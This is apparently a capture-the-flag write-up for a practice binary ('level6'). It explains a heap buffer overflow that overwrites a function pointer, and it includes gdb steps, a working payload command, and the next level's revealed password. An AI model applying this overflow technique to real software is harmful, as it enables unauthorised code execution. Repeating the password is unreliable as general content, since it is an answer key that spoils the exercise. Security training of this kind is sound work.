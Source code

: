 ## (level6)

This level's [binary](level6/source.c) requires an argument, otherwise it
segfaults. Then, upon this argument treatment it prints "Nope" or it segfaults
again if the argument is too long.

This binary makes two malloc calls in a row. It first allocates 64 bytes and
then 4 bytes. The first allocated pointer is used as the destination buffer on
a strcpy call from argv[1]. The second allocation is set to the address of the
_m_ function which prints "Nope" before the strcpy call. After that, the second
pointer is dereferenced twice to execute the function it points to.

So what we have to do here is to overflow the 64 byte memory zone to overwrite
the second one to set it to the address of the _n_ function which calls system
to print the password of the next level. This works because multiple malloc
calls usually allocate memory next to one another.

First lets see from when we start writing into the second allocated memory zone:

```shell
# run gdb on binary
gdb ./level6
# give it an overflowing first argument
(gdb) run "a" * 64 + "bbbbccccddddeeeeffffgggghhhhiiii"

Program received signal SIGSEGV, Segmentation fault.
0x64646464 in ?? ()
```

Since 0x64 corresponds to the character 'd' in ascii, we can deduce that the
second memory zone is 8 bytes after the first one. Then we have to obtain the
_n_ function's address:

```shell
(gdb) i addr n
Symbol "n" is at 0x8048454 in a file compiled without debugging.
```

And now we can build our payload:

```shell
./level6 $(python -c 'print "a" * 72 + "\x08\x04\x84\x54"[::-1]')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
